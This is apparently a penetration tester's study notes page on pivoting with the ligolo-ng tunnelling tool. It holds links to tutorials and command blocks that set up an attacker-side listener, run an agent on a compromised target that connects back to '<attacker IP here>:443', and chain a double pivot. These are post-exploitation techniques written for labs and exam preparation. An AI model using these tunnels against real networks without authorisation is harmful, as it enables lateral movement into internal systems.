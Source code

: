 # Pivoting (Tunneling & Forwarding)

{% embed url="https://www.reddit.com/r/oscp/comments/1akvtwe/ligolo_chisel_and_painfully_slow_nmap_scans/" fullWidth="false" %}

{% hint style="info" %}
Upload nmap binary to compromised machine and scan from there instead of scanning via ligolo incase it don't work
{% endhint %}

{% embed url="https://medium.com/@raphaeltzy13/pivoting-with-ligolo-active-directory-82a86d739409" %}

{% embed url="https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16" %}
finish revshells and callback section
{% endembed %}

{% embed url="https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/" %}
In this one, for double pivot, first session is closed and new direct link is made with machine 2 and kali
{% endembed %}

{% embed url="https://medium.com/@Thigh_GoD/ligolo-ng-finally-adds-local-port-forwarding-5bf9b19609f9" %}
Add 240.0.0.1 to ip route instead of target IP, all ports will be forwarded to this IP eg. 240.0.0.1:8080 will show the website hosted on target which wasn't accessible earlier
{% endembed %}

### Summary

```
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
ligolo -selfcert -laddr 0.0.0.0:443 
#Accepts connections at port 443

TARGET
.\agent.exe -connect <attacker IP here>:443 -retry -ignore-cert

KALI
session
1
ifconfig
add IP of internal network to our route
NEW TAB
sudo ip route add xxx.xxx.xxx.0/24 dev ligolo
ip route list
BACK TO LIGOLO
start
```

#### Double Pivot

```
EXISTING SESSION
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
listener_list
./agent.exe -connect <IP of First Pivot Point>:11601 -ignore-cert
KALI
NEW TAB
sudo ip add route <New_Network> dev ligolo-double
session
2
tunnel_start --tun ligolo-double
```
